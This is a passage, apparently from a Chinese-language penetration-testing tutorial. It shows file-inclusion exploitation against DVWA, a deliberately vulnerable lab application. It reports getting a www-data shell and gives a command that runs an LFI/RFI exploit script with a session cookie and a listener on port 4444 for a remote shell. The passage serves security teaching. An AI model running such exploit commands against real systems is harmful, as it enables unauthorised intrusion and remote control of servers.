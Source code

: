 ![](img/0a149bad-cf5b-4443-9498-5362a47481b9.png)![](img/f55804f0-eee1-4ada-9e80-3ba646eadbe7.png)

如图所示，我们成功获得了`www-data`的低权限 shell。

# 执行 RFI 利用

执行和利用 RFI 漏洞，我们将向脚本传递以下参数：

```py
python LFI_RFI.py 192.168.1.102 http://192.168.1.102/dvwa/login.php http://192.168.1.102/dvwa/vulnerabilities/fi/ page 1 "security=low;PHPSESSID=5c6uk2gvq4q9ri9pkmprbvt6u2" 192.168.1.102 4444 0 0
```

上述命令将产生如下截图所示的输出：
